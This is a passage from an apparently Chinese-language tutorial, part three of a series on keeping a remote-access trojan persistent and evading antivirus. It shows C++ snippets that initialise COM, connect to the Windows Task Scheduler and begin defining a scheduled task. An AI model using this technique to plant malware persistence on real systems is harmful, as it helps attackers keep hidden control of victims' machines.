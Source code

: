 ```
 
		psl->Release();
 
	CoUninitialize();
}
```

## RAT利用权限维持持久免杀（三）

### 实现原理

程序功能分为三部分，首先是初始化，其次是添加计划任务，最后添加了删除计划任务功能。

以下只展示思路与代码demo

#### 1.Initialization

为了获取到获取 ITaskService 对象以及 ITaskFolder 对象

首先初始化COM接口

```
//  初始化 COM
	hr = CoInitializeEx(NULL, COINIT_MULTITHREADED);

  //  设置 COM security levels.
  hr = CoInitializeSecurity(NULL, -1, NULL, NULL, RPC_C_AUTHN_LEVEL_PKT_PRIVACY, RPC_C_IMP_LEVEL_IMPERSONATE, NULL, 0, NULL);

  //  创建Task Service对象
  hr = CoCreateInstance(CLSID_TaskScheduler, NULL, CLSCTX_INPROC_SERVER, IID_ITaskService, (void**)&pService);
  //  连接到Task Service
  hr = pService->Connect(_variant_t(), _variant_t(), _variant_t(), _variant_t());

  hr = pService->GetFolder(_bstr_t(L"\\"), &pRootFolder);
```

#### 2.CreateTask

首先创建任务定义对象，进行任务创建操作

```
hr = pService->NewTask(0, &pTask);
```

接着设置注册信息

```
hr = pTask->get_RegistrationInfo(&pRegInfo);
	//作者
	hr = pRegInfo->put_Author(_bstr_t(wszAuthor));
	//描述
	hr = pRegInfo->put_Description(_bstr_t(wszDescription));
```
